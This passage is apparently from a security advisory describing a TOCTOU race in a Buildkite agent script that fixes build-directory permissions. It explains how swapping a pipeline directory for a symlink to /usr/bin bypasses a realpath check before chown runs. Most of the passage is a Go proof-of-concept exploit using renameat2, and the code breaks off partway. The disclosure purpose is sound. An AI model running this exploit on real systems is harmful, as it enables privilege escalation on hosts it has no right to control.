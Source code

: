 This introduced a TOCTOU race condition allowing an attacker to effectively bypass the `realpath` check. To exploit this, an attacker could craft a `PIPELINE_PATH` directory that passes the `realpath` check and covert the directory to a symbolic link prior to the `/bin/chown` command. For example, this can be accomplished using the `SYS_RENAMEAT2` system call as shown in the following proof-of-concept:

```go
package main

import (
    "fmt"
    "os"
    "os/exec"
    "os/user"
    "path/filepath"
    "syscall"
    "unsafe"
)

func main() {
    // check that current user is buildkite-agent
    username := "buildkite-agent"
    currentUser, err := user.Current()
    if err != nil {
        panic(err)
    }   

    if username != currentUser.Username {
        fmt.Printf("Must be run as %s\n", username)
        return
    }   

    // define directories, paths, and script file name
    usrBin := "/usr/bin/"
    scriptFile := "fix-buildkite-agent-builds-permissions"
    buildPath := "/var/lib/buildkite-agent/builds"
    agentDirectory := "agent_dir"
    orgDirectory := "org_dir"
    pipelineDirectory := scriptFile
    usrBinSymlink := "usr_bin"

    // mkdir -p /var/lib/buildkite-agent/builds/agent_dir/org_dir/fix-buildkite-agent-builds-permissions
    err = os.MkdirAll(filepath.Join(buildPath, agentDirectory, orgDirectory, pipelineDirectory), 0755)
    if err != nil {
        panic(err)
    }

    // ln -s /usr/bin/ /var/lib/buildkite-agent/builds/agent_dir/usr_bin
    err = os.Symlink(usrBin, filepath.Join(buildPath, agentDirectory, usrBinSymlink))
    if err != nil {
        panic(err)
    }

    // cd /var/lib/buildkite-agent/builds/agent_dir/
    err = os.Chdir(filepath.Join(buildPath, agentDirectory))
    if err != nil {
        panic(err)
    }

    // loop renameat2 to atomically exchange names between org_dir and usr_bin
    signal := AtomicNameExchanger(orgDirectory, usrBinSymlink)

```